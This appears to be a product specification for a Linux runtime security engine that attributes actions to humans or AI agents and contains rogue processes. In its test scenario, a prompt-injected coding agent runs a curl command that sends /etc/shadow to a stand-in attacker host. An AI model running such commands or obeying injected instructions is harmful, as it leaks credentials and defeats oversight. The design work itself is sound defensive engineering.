

# Sentinel Runtime Engine v1 — Master Architecture & Product Specification

**Document ID:** `SPEC-SENTINEL-RUNTIME-ENGINE-V1`  
**Revision:** `R2 (Post-Containment Safety & Architectural Enforcement Review)`  
**Status:** `ENGINE V1 ARCHITECTURE — R2 REVIEWED DRAFT`  
**Date:** 2026-11-04  
**Target Workloads:** Linux Servers, Containerized Cloud Infrastructure, Hybrid Human & AI Agent Environments  
**Telemetry Baseline:** Cilium Tetragon v1.8.0, OpenTelemetry GenAI & MCP Semantic Conventions  
**Commercial Backing:** Sentinel Cloud Platform (API Key / Cross-Host Threat Intelligence / Code-to-Runtime Correlation)  

---

## 1. Executive Product Vision & Strategic Positioning

### 1.1 The Operational Problem in Modern Environments
Modern cloud infrastructure is operated by a hybrid mix of actors:
1. **Human Operators:** Developers, DevOps, and SREs using SSH, sudo, bastion hosts, and administrative CLIs.
2. **Automated Services:** Background cron jobs, deployment microservices, and Kubernetes controllers.
3. **Autonomous AI Coding & Operations Agents:** LLM-based autonomous agents executing tools, dispatching sub-processes, querying internal APIs via Model Context Protocol (MCP), editing configuration files, and triggering cloud deploys.

When an unexpected file modification, exfiltration attempt, or anomalous process occurs, existing security tools produce disconnected observations:
- **Kernel eBPF Sensors (Tetragon/Falco):** Detect low-level syscalls (`pid 4812 executed curl -X POST https://api.internal/data`), but have **zero visibility** into whether that process was spawned by an authenticated developer, an unattended background daemon, or an autonomous AI agent acting on behalf of a user.
- **Agent Governance Toolkits (Microsoft AGT, LangSmith, Tracing):** Record that `Agent-02 invoked tool exec_shell`, but have **zero visibility** into what syscalls the kernel actually executed, whether child processes were spawned, or if the process escaped its designated working directory.
- **Traditional SIEM / EDR (Sysdig, Datadog, Wazuh):** Collect high-volume logs and apply heuristic pattern matching, but do not provide verifiable cryptographic chains linking human delegation $\to$ agent intention $\to$ kernel telemetry $\to$ tamper-evident proof.

### 1.2 What Sentinel Runtime Is
> **Sentinel Runtime is a local-first observability, security attribution, and autonomous response engine for hybrid environments where humans, automated services, and AI agents interact on Linux infrastructure.**

Sentinel Runtime answers five non-negotiable questions for every security-relevant action:
1. **Actor Attribution:** Who initiated this action? (`HUMAN`, `AI_AGENT`, `SERVICE`, `WORKLOAD`, or `UNKNOWN`).
2. **Authority & Delegation Chain:** Under whose authority was the action taken, through what delegation path, and via which tool/workflow?
3. **Physical Execution:** What processes, kernel syscalls, network connections, and file modifications actually occurred on the host?
4. **Verifiable Provenance:** What exact telemetry was received from the sensor, what was interpreted, and what gaps or uncertainties exist?
5. **Deterministic Action:** What local containment or cloud escalation policy was triggered, with full auditability and zero hallucination?

### 1.3 What Sentinel Runtime Is NOT
- **It is NOT a bespoke eBPF kernel sensor:** Sentinel does not rewrite Tetragon or Falco. It builds on Tetragon's battle-tested eBPF engine.
- **It is NOT an in-memory alert firehose:** Sentinel focuses on deterministic causal chains, explicit data provenance, and immutable evidence, rather than generating noisy heuristic alerts.
- **It is NOT an online-only cloud dependency:** The local engine is 100% autonomous, runs air-gapped/offline, and requires no external network connection to observe, correlate, persist evidence, and execute local pre-authorized containment.

---

## 2. Implementation Status by Subsystem

To maintain rigorous transparency, each subsystem is explicitly tagged with its current codebase maturity:

| Subsystem | Name | Status | Current Codebase Implementation |
|---|---|---|---|
| **01** | Ingress & Source Integration Layer | `PARTIALLY_IMPLEMENTED` | Read-only Tetragon gRPC proxy (`src/collectors/tetragon-readonly-proxy.js`), JSONL file reader. OTel/MCP bridge is `DESIGN_ONLY`. |
| **02** | Evidence Acquisition & Provenance Engine | `PARTIALLY_IMPLEMENTED` | Event Contract v2 candidate, Profiles A–D event keys, canonical materializer. Spool disk journal is `DESIGN_ONLY`. |
| **03** | Hybrid Identity & Attribution Engine | `DESIGN_ONLY` | Identity models specified; runtime attribution logic pending Phase 002. |
| **04** | Causal Correlation & Activity Graph | `PARTIALLY_IMPLEMENTED` | In-memory process table with LRU expiry (`src/runtime/profiler.js`). Cross-domain MCP-to-Syscall DAG is `DESIGN_ONLY`. |
| **05** | Deterministic Detection & Policy Engine | `PARTIALLY_IMPLEMENTED` | Exact binary path/digest allowlists, CIDR filters (`src/runtime/engine.js`). Agent boundary policies are `DESIGN_ONLY`. |
| **06** | Response & Containment Engine (R0–R4) | `DESIGN_ONLY` | Safety architecture and transactional lifecycle specified in R2. Zero runtime code implemented yet. |
| **07** | Evidence, Durability & Ledger Engine | `PARTIALLY_IMPLEMENTED` | SQLite hash-chain ledger (`src/runtime/evidence.js`). Durable pre-ingest spool and WORM packaging are `DESIGN_ONLY`. |
| **08** | Local Interface & Cloud Control Bridge | `PARTIALLY_IMPLEMENTED` | CLI status and offline validation commands. Cloud API Key envelope sender is `DESIGN_ONLY`. |

---

## 3. The 8 Core Subsystems & The Incident Transaction Model

### 3.1 Strict Transaction Sequence for Auditable Action
To prevent states where a containment action is executed but never recorded (e.g. if the runtime crashes or is terminated mid-action), Sentinel Runtime enforces an explicit 7-step transaction order:



### 3.2 Action Lifecycle States
Every containment attempt transitions through explicit states recorded in the durable ledger:
- `ACTION_PLANNED`: Recorded *before* dispatching any signal or network command. Specifies rule ID, target cgroup/pidfd, planned action, and authorization digest.
- `ACTION_DISPATCHED`: Command has been passed to the privileged responder daemon over the local Unix socket.
- `ACTION_CONFIRMED`: Operating system confirmed termination (`cgroup.kill` wrote `1`, `pidfd_send_signal` returned `0`, or `nftables` transaction committed).
- `ACTION_FAILED`: Operating system returned an explicit error (e.g., `ESRCH`, `EPERM`, `EBUSY`).
- `ACTION_OUTCOME_UNKNOWN`: The responder crashed, timed out, or disconnected before delivery could be verified. **Rule:** The engine must record `ACTION_OUTCOME_UNKNOWN` and schedule reconciliation; it must never invent that the action succeeded.

---

### Detailed Subsystem Architecture

#### Subsystem 01: Source Integration Layer
- **Tetragon gRPC Read-Only Ingress:** Connects to `src/collectors/tetragon-readonly-proxy.js`. Exposes only `GetVersion` and `GetEvents`. Rejects all administrative RPCs.
- **OTel / MCP Ingress (Design):** Ingests trace spans and tool call receipts conforming to OpenTelemetry GenAI Semantic Conventions (`gen_ai.system`, `gen_ai.agent.id`, `gen_ai.tool.name`).

#### Subsystem 02: Evidence Acquisition & Provenance Engine
- **Payload Integrity:** Exact received-payload preservation with explicit loss and gap accounting.
- **Domain-Separated Keys:** Profiles A (`RAW_PROVIDER_EVENT`), B (`DERIVED_CORRELATED_EVENT`), C (`SYNTHETIC_OBSERVABILITY_EVENT`), and D (`RAW_PARTIAL_PROCESS_EVENT` — Provisional).
- **Honest Gap Accounting:** When sensors disconnect, the gap is recorded, duration measured, and loss count marked `null` with status `UNKNOWN` (no fabricated drop estimates).

#### Subsystem 03: Hybrid Identity & Attribution Engine
- **Decoupled Identity Invariant:** Strictly separates:
  1. *Authenticated Principal* (OIDC, SSH public key).
  2. *Kernel Process Identity* (`host_id`, `boot_id`, `pid`, `ruid`, `euid`, `cgroup`).
  3. *Signed Delegation Token* (cryptographic scope token).
  4. *Causal Execution Link* (W3C traceparent linking tool call to OS process).
- *Strict Rule:* If any link in the delegation chain cannot be verified with telemetry, identity is marked `UNKNOWN`. `UNKNOWN` attribution must never authorize destructive containment.

#### Subsystem 04: Causal Correlation & Activity Graph
- **Process Lineage:** Lineage tracked via `(host_id, boot_id, exec_id)`.
- **Durable Reconstructibility:** The in-memory DAG is an ephemeral correlation cache. Every node and edge is 100% reconstructible from the durable spool and SQLite ledger.
- **Bounded Memory:** Eviction follows an explicit LRU time-window to prevent OOM under fork bombs.

#### Subsystem 05: Deterministic Detection & Policy Engine
- **Workload Profiles:** Strict allowlists for binary paths, SHA-256 digests, and IPv4/IPv6 CIDR ranges.
- **Agent Boundaries:** Verifies that AI agents only execute tools and binaries explicitly permitted in their signed profile.
- **Verdicts:** `NORMAL`, `SUSPICIOUS`, `POLICY_VIOLATION`, or `UNKNOWN`.

---

#### Subsystem 06: Response & Containment Engine (Autonomous Defense)

```
 LEVEL   NAME                      MECHANISM                       NETWORK/CLOUD
 ──────  ────────────────────────  ──────────────────────────────  ─────────────
 R0      Observe & Record          Write to tamper-evident ledger  Autonomous
 R1      Local Immediate Alert     Syslog, Unix socket RPC, stdout Autonomous
 R2      Human-in-the-Loop Wait    Hold action pending approval    Autonomous / SaaS
 R3      Pre-Authorized Contain    cgroup.kill / pidfd / nftables  Autonomous
 R4      Kernel Policy Block       Tetragon eBPF enforcement       Autonomous
```

##### 1. R3 Process Containment: Elimination of `exec_id` as OS Signal Handle
- **The Problem:** `exec_id` is an opaque Tetragon tracking string (`host:boot:pid:start_time`). The Linux kernel does not accept `exec_id` as a target for POSIX signals.
- **The Solution:**
  1. **Workload / Agent Subtree Containment (Preferred):** Each monitored agent or container runs inside a dedicated cgroup v2 subtree (e.g., `/sys/fs/cgroup/sentinel.slice/agent-<uuid>/`). Containment is executed by writing `1` to `cgroup.kill`. This terminates all processes and concurrent forks atomically without race conditions.
  2. **Individual Process Signaling:** If an individual process must be signaled outside a dedicated cgroup, the engine resolves the target `pid`, immediately opens a file descriptor using `pidfd_open(pid, 0)`, verifies that the process start time in `/proc/<pid>/stat` matches the telemetry anchor, and dispatches the signal via `pidfd_send_signal(pidfd, SIGKILL, NULL, 0)`.
  3. *Safety Invariant:* Never send a signal using a bare integer PID observed asynchronously.

##### 2. R3 MCP Session Control: Adapter-Specific Cancellation
- **The Problem:** Model Context Protocol (MCP) tool execution cancellation (`notifications/cancelled`) is cooperative. A misbehaving or compromised agent server may ignore cancellation requests.
- **The Solution:**
  - MCP cancellation is treated as a **cooperative grace window**:
    1. Send `notifications/cancelled` with the active `requestId`.
    2. Start an enforcement timer (default: 500 ms).
    3. If the runner does not terminate the subprocess and acknowledge cancellation within the timeout, escalate immediately to OS-level process containment (`pidfd_send_signal` or `cgroup.kill`).
  - Supported Runners: Standardized adapters for Docker/OCI runtime, systemd-run dynamic units, and local sub-process wrappers.

##### 3. R3 Network Containment: Exact nftables Architecture
- **Supported Mechanism:** Dedicated `nftables` table `sentinel_containment` with hook `output` priority `-100` (before routing/conntrack).
- **Matching:** Uses `meta cgroup` v2 path matching against the designated cgroup ID.
- **Coverage:** Drops all outbound TCP and UDP across IPv4 and IPv6.
- **Existing Sockets:** In addition to nftables packet drops, the responder invokes `ss -K dst ...` or TCP socket teardown to immediately terminate active established connections.
- **Cleanup & Crash Recovery:** The privileged responder maintains an active lockfile and registers a systemd shutdown hook to flush containment sets if the system restarts in maintenance mode.

##### 4. R4 Tetragon Kernel Enforcement Matrix & Policy Management
- **The Problem:** Tetragon actions have different semantics and kernel prerequisites. `SIGKILL` on a `write()` kprobe terminates the process but does not prevent the write operation from completing before death.
- **Enforcement Matrix:**

| Hook / Target | Action | Kernel Prerequisite | Prevents Operation? | Known Limitations & Semantics |
|---|---|---|---|---|
| `sys_enter_openat2` | `Override` (-EACCES) | `CONFIG_BPF_KPROBE_OVERRIDE=y` | **YES** (Syscall aborted) | Returns error code directly to caller; process survives. |
| `sys_enter_execve` | `Override` (-EPERM) | `CONFIG_BPF_KPROBE_OVERRIDE=y` | **YES** (Execution blocked) | Process does not spawn. |
| `sys_enter_connect` | `Override` (-ECONNREFUSED) | `CONFIG_BPF_KPROBE_OVERRIDE=y` | **YES** (Socket connect fails) | Prevents SYN packet transmission. |
| `do_sys_openat2` | `Sigkill` | Standard eBPF | **PARTIAL** | Process is terminated, but file may be partially opened. |
| `vfs_write` | `Sigkill` | Standard eBPF | **NO** | Process is killed, but target block/page may already be written. |
| `tcp_sendmsg` | `Sigkill` | Standard eBPF | **PARTIAL** | Terminates sender, but current buffer may already be in TCP stack. |

- **Privileged Policy Management Service:**
  - The read-only monitoring proxy (`src/collectors/tetragon-readonly-proxy.js`) remains strictly read-only and unprivileged.
  - A dedicated, separate systemd service (`sentinel-runtime-enforcer.service`) runs with `CAP_SYS_ADMIN` and listens on an isolated Unix socket (`/run/sentinel/enforce.sock`, permissions `0600 root:root`).
  - Before applying any `TracingPolicy`, Sentinel verifies its **Ed25519 cryptographic signature** against a trusted local key in `/etc/sentinel/keys/enforcement.pub`.
  - Non-Atomic Recovery: Because Tetragon's `ConfigureTracingPolicy` is not atomic, the enforcer executes a two-phase check: applies policy, queries active policies, and rolls back to previous known-good state if verification fails.

##### 5. Safety Controls, Rate Limits & Break-Glass
- **Default Mode:** Sentinel Runtime boots in `OBSERVE_ONLY` mode unless explicitly configured with `--enforcement-mode=contain`.
- **Action Rate Limits:** Maximum 5 containment actions per minute per host; excess violations trigger emergency local alerting without cascading system teardown.
- **Break-Glass File:** Touching `/etc/sentinel/BREAK_GLASS` instantly suspends all automated containment and reverts to observe-only.
- **Attribution Guardrail:** An event with `UNKNOWN` attribution is forbidden from triggering R3/R4 destructive containment; it triggers Level R1/R2 alerting only.

---

#### Subsystem 07: Evidence, Durability & Ledger Engine
- **Pre-Ingest Spool:** Append-only disk journal writing raw bytes before memory processing.
- **SQLite Hash Chain:** Tamper-evident ledger. Formula: $\text{RecordHash}_n = \text{SHA-256}(\text{RecordHash}_{n-1} \,\|\, \text{CanonicalPayload}_n)$.
- *Forensic Clarification:* The SQLite hash chain provides **tamper-evidence** (detects unauthorized record insertion, deletion, or modification). It does not prevent an adversary with full root access from deleting the database file; true non-repudiation requires external anchoring (S3 Object Lock or Sentinel Cloud WORM).

#### Subsystem 08: Local Interface & Cloud Control Bridge
- **CLI Commands:** `status`, `verify-ledger`, `export-dossier`, `containment-status`.
- **Prometheus Scrape:** Port 9100 / metrics endpoint for ingestion rates, queue depths, and gap metrics.
- **Cloud Bridge:** Authenticates via API Key to push sanitized incident envelopes.

---

## 4. Threat Model for the Privileged Response Service

```
┌────────────────────────────────────────────────────────────────────────┐
│                        THREAT MODEL: ENFORCER                          │
├────────────────────────────────┬───────────────────────────────────────┤
│ Threat Vector                  │ Mitigation Architecture               │
├────────────────────────────────┼───────────────────────────────────────┤
│ PID Reuse Race                 │ Use `pidfd_open` + `/proc/<pid>/stat` │
│                                │ start time check, or `cgroup.kill`.   │
├────────────────────────────────┼───────────────────────────────────────┤
│ Rogue Policy Injection         │ Offline Ed25519 signature verified    │
│                                │ before handing policy to Tetragon.    │
├────────────────────────────────┼───────────────────────────────────────┤
│ DOS via False Containment      │ Rate limiting (max 5/min), strict     │
│                                │ break-glass file, observe-only default│
├────────────────────────────────┼───────────────────────────────────────┤
│ Read-Proxy Compromise          │ Enforcer runs on isolated socket      │
│                                │ (`0600`); read proxy cannot write.    │
├────────────────────────────────┼───────────────────────────────────────┤
│ Crash Between Kill & Ledger    │ Transaction order: ACTION_PLANNED     │
│                                │ written to disk journal before action.│
└────────────────────────────────┴───────────────────────────────────────┘
```

---

## 5. Commercial Synergy: Sentinel Cloud & The "Code-to-Runtime" Flywheel

```
┌─────────────────────────────────────────────────────────────────────────────────────────┐
│                                 SENTINEL CLOUD PLATFORM                                 │
│                                                                                         │
│   ┌───────────────────────────────┐           ┌──────────────────────────────────────┐  │
│   │   Code & Supply Chain SAST    │           │     Cross-Host Fleet Intelligence    │  │
│   │   - PR Security Audits        │           │     - Centralized Activity Graph     │  │
│   │   - Dependency Scanner        │           │     - Multi-node Incident Correlation│  │
│   │   - Malicious Code Findings   │           │     - Enterprise SIEM Exporters      │  │
│   └──────────────┬────────────────┘           └──────────────────▲───────────────────┘  │
│                  │                                               │                      │
│                  ▼                                               │ (Incident Envelope)  │
│   ┌──────────────────────────────────────────────────────────────┴───────────────────┐  │
│   │              CODE-TO-RUNTIME ATTRIBUTION & CORRELATION ENGINE                    │  │
│   │  Commit SHA -> CI Build -> Image Digest -> Container -> AI Agent -> Syscall     │  │
│   └──────────────────────────────────────────────────────────────────────────────────┘  │
└──────────────────────────────────────────▲──────────────────────────────────────────────┘
                                           │ (API Key: `sentinel_api_token`)
                        ┌──────────────────┴──────────────────┐
                        │                                     │
          ┌───────────────────────────┐         ┌───────────────────────────┐
          │ Host 01: Sentinel Runtime │         │ Host N: Sentinel Runtime │
          │ (100% Autonomous Offline) │         │ (100% Autonomous Offline) │
          └───────────────────────────┘         └───────────────────────────┘
```

### 5.1 Authenticated Incident Intelligence Envelope
The cloud bridge derives the organization and tenant **strictly from the authenticated mTLS / API key session credentials**, never trusting client-supplied tenant IDs in the payload.

```json
{
  "envelope_version": "1.0.0",
  "device_id": "dev_worker_linux_eu01",
  "incident_id": "inc_20261104_0042",
  "timestamp": "2026-11-04T01:30:00.000Z",
  "actor_summary": {
    "actor_type": "AI_AGENT",
    "agent_id": "agent_auto_refactor",
    "delegated_by": "user_sre_lead",
    "attribution_confidence": "PROVEN_CRYPTOGRAPHIC"
  },
  "provenance_chain": {
    "git_commit": "a1b2c3d4e5f678901234567890abcdef12345678",
    "ci_job_id": "github_actions_run_991240",
    "image_digest": "sha256:7f83b1657ff1fc53b92dc18148a1d65dfc2d4b1fa3d677284addd200126d9069",
    "container_id": "cgroup_slice_worker_42"
  },
  "violation_details": {
    "rule_id": "SEC-RUL-EXEC-ESCAPE",
    "policy_level": "R3_CONTAINMENT_EXECUTED",
    "action_taken": "CGROUP_KILL_AND_NFTABLES_DROP",
    "executable_hash_placeholder": "sha256:ba7816bf8f01cfea414140de5dae2223b00361a396177a9cb410ff61f20015ad",
    "target_destination": "198.51.100.22:4444"
  },
  "evidence_anchor": {
    "ledger_record_hash": "a8f5c9213456789abcdef0123456789abcdef0123456789abcdef0123456789a",
    "root_signature": "ed25519_sig_..."
  }
}
```

### 5.2 The Provenance Chain
For the Code-to-Runtime Flywheel to hold forensic weight, the connection cannot be based solely on a container name. It requires an unbroken chain:
$$\text{Git Commit SHA} \longrightarrow \text{CI Build Run} \longrightarrow \text{OCI Image Digest} \longrightarrow \text{K8s / Container ID} \longrightarrow \text{cgroup v2} \longrightarrow \text{Tetragon Syscall}$$

When a vulnerability flagged in a PR review is attacked at runtime, Sentinel Cloud correlates the exact Git commit and author with the kernel process blocked by Sentinel Runtime.

---

## 6. Build vs. Buy / Ecosystem Reuse Matrix

| Subsystem / Layer | Strategy | Reused Technology | Proprietary Sentinel IP | Architecture Rationale |
|---|---|---|---|---|
| **Kernel Sensor** | **REUSE** | Cilium Tetragon (v1.8.0) | None (eBPF upstream) | Rewriting eBPF is a multi-year liability. Tetragon is proven and battle-tested. |
| **Telemetry Transport** | **REUSE** | OpenTelemetry Protobuf | Minimal envelope framing | Industry standard; enables plug-and-play with existing observability agents. |
| **Local Storage** | **REUSE** | SQLite (`node:sqlite`) | Hash-chain integrity logic | Embedded, ACID, zero-maintenance, crash-safe. |
| **Agent Protocols** | **REUSE** | Model Context Protocol (MCP) | Identity & span correlation | Fast-growing open standard for LLM tool use. |
| **Cloud Storage** | **REUSE** | AWS S3 Object Lock / MinIO | Dossier packager & signer | Built-in compliance WORM; no need to build bespoke storage clouds. |
| **Event Contract v2** | **BUILD** | JSON Schema Draft 2020-12 | Contract schemas & validators | Core IP: explicit loss domains, cryptographic event keys, exact received-payload retention. |
| **Hybrid Identity Engine** | **BUILD** | None (Novel domain) | Attribution & delegation engine | Core IP: linking Human $\leftrightarrow$ AI Agent $\leftrightarrow$ Kernel execution. |
| **Activity Graph** | **BUILD** | None (Custom DAG) | Causal graph & time-window LRU | Core IP: deterministic cross-domain causal correlation. |
| **Autonomous Containment**| **BUILD** | Linux cgroup.kill / pidfd / nftables | Graduated response engine (R0-R4) | Core IP: deterministic, safe, automated defense without kernel panics. |

---

## 7. Competitor Capability & Differentiator Matrix

*Classification Legend:*
- **VERIFIED:** Confirmed in official product documentation and source code.
- **NOT_DOCUMENTED:** Product documentation does not claim or describe this capability.
- **NOT_TESTED:** Architectural claim not independently verified in our test environment.

| Capability | Cilium Tetragon | Falco | Sysdig Secure | Datadog CWP | **Sentinel Runtime + Cloud** |
|---|---|---|---|---|---|
| **Kernel Sensor** | Native eBPF (`VERIFIED`) | eBPF (`VERIFIED`) | Agent + eBPF (`VERIFIED`) | Agent + eBPF (`VERIFIED`) | **Reuses Tetragon eBPF** (`VERIFIED`) |
| **AI Agent / MCP Attribution**| `NOT_DOCUMENTED` | `NOT_DOCUMENTED` | `NOT_DOCUMENTED` | `NOT_DOCUMENTED` | **Native Attribution Engine** (`BUILD`) |
| **Deterministic Causal DAG** | Process tree only (`VERIFIED`)| `NOT_DOCUMENTED` | Proprietary SaaS (`VERIFIED`)| Proprietary SaaS (`VERIFIED`)| **Local Open Causal Graph** (`BUILD`) |
| **Received Wire Retention** | Deserializes (`VERIFIED`) | Drops frames (`VERIFIED`) | Cloud-ingested (`VERIFIED`) | Cloud-ingested (`VERIFIED`) | **Exact Wire Retention + Loss Gap** (`VERIFIED`) |
| **Cryptographic Event Keys** | `NOT_DOCUMENTED` | `NOT_DOCUMENTED` | UUIDv4 (`VERIFIED`) | Log IDs (`VERIFIED`) | **Domain-Separated SHA-256 Keys** (`VERIFIED`) |
| **Loss & Gap Honesty** | Metric counters (`VERIFIED`) | Drops reported (`VERIFIED`)| Backend estimate (`VERIFIED`)| Backend estimate (`VERIFIED`)| **Explicit Loss Domains (Gap=UNKNOWN)** (`VERIFIED`) |
| **Tamper-Evident Ledger** | `NOT_DOCUMENTED` | `NOT_DOCUMENTED` | SaaS custody (`VERIFIED`) | SaaS custody (`VERIFIED`) | **Local SQLite Hash Chain** (`VERIFIED`) |
| **Air-Gap Autonomous Defense** | Kill via policy (`VERIFIED`) | Alert only (`VERIFIED`) | SaaS required (`VERIFIED`)| SaaS required (`VERIFIED`)| **R0–R4 Local Autonomous Defense** (`BUILD`) |
| **Code-to-Runtime Correlation**| `NOT_DOCUMENTED` | `NOT_DOCUMENTED` | Limited (`VERIFIED`) | Limited (`VERIFIED`) | **PR Audit to Syscall Trace** (`BUILD`) |

---

## 8. Single End-to-End MVP Scenario: "The Rogue Coding Agent"

```
SCENARIO SUMMARY:
1. Operator Alice authorizes AI Agent "refactor-bot" to perform TypeScript linting via MCP.
2. The agent executes tool `run_linter`, which spawns `/usr/bin/npm run lint`.
3. A poisoned dependency or prompt injection causes the process to execute `/bin/curl -F data=@/etc/shadow http://evil.attacker/exfil`.
```

### Verification & Pass/Fail Criteria
- [ ] **Provenance:** Raw Tetragon protobuf bytes for `execve` and `connect` are preserved in the pre-ingest journal with valid SHA-256 wire hash.
- [ ] **Attribution:** The engine attributes `curl` to `AI_AGENT:refactor-bot` delegated by `HUMAN:alice`, with confidence `OBSERVED_CORRELATED`.
- [ ] **Detection:** The policy engine flags `/etc/shadow` read and external socket connection as `POLICY_VIOLATION`.
- [ ] **Transaction Order:** `ACTION_PLANNED` is written to the ledger before dispatch; containment executed via `cgroup.kill` and `nftables`; `ACTION_CONFIRMED` recorded.
- [ ] **Evidence:** SQLite ledger commits the event chain with unbroken cryptographic hash links.
- [ ] **Cloud Bridge:** If connected, transmits a sanitized Incident Intelligence Envelope to Sentinel Cloud; if air-gapped, completes 100% of the defense locally.

---

## 9. Criteria for "Engine Complete" (Stop Conditions for Local MVP)

The Sentinel Runtime Local Engine v1 is declared **COMPLETE** when all 6 gates are closed:

- [ ] **Gate 1: Event Contract v2 Frozen (`SCHEMA-V2-FROZEN`)**  
  Schema v2 candidate approved, 14 event families compile cleanly under Draft 2020-12, SHA-256 anchor frozen.
- [ ] **Gate 2: Live Sensor Telemetry Gate (`LIVE-SENSOR-V1`)**  
  Validated against live Tetragon v1.8.0 daemon on Linux; TracingPolicy CRDs verified; loss counters verified with counter-delta and reset tests.
- [ ] **Gate 3: Durability & Spool Journal Gate (`DURABILITY-V1`)**  
  Append-only pre-ingest spool implemented; crash recovery tested; sensor disconnect produces honest `gap_recorded` with `count: null` and status `UNKNOWN`.
- [ ] **Gate 4: Hybrid Attribution & MCP Gate (`HYBRID-ATTRIBUTION-V1`)**  
  OTel GenAI / MCP receiver correlates tool calls to kernel processes; non-correlated actions strictly marked `UNKNOWN`.
- [ ] **Gate 5: Autonomous Containment & Dossier Gate (`CONTAINMENT-EVIDENCE-V1`)**  
  Levels R0–R3 verified in offline environment with pidfd / cgroup.kill; `export-dossier` packages verifiable evidence; `verify-ledger` flags tampering.
- [ ] **Gate 6: Native Linux Deployment Gate (`DEPLOYMENT-V1`)**  
  Systemd units verified with socket permissions `0660` for reader and `0600` for privileged enforcer; package builds on Ubuntu 22.04 and 24.04 LTS; 100% test pass on native Linux.

---

## 10. Prioritized Roadmap

```
PHASE 001C (DONE)       ──▶ Event Contract v2 Candidate Published & CI Verified (226/226 Linux Pass)
                                │
PHASE 001D (NEXT)       ──▶ Live Sensor Telemetry Validation (Tetragon v1.8.0 Real Hooks & Metrics)
                                │
PHASE 001E              ──▶ Stream Durability & Disk Spool Journal (Crash Recovery & Gap Policy)
                                │
PHASE 002               ──▶ Hybrid Identity Engine & MCP Tool Correlation (Human + AI Agent Attribution)
                                │
PHASE 003               ──▶ Autonomous Containment Engine (R0–R3 Local Response & Air-Gap Defense)
                                │
PHASE 004               ──▶ Evidence Dossier Export & Tamper-Evident Verification CLI
                                │
PHASE 005               ──▶ Sentinel Cloud Fleet Integration (API Key, Envelope & Code-to-Runtime Correlation)
```

**Instruction for Engineering Agents:**  
Do NOT begin Phase 001D or Response Engine implementation without an authorized TracingPolicy test plan. Do NOT implement bespoke in-memory alerting firehoses or closed SaaS dependencies.
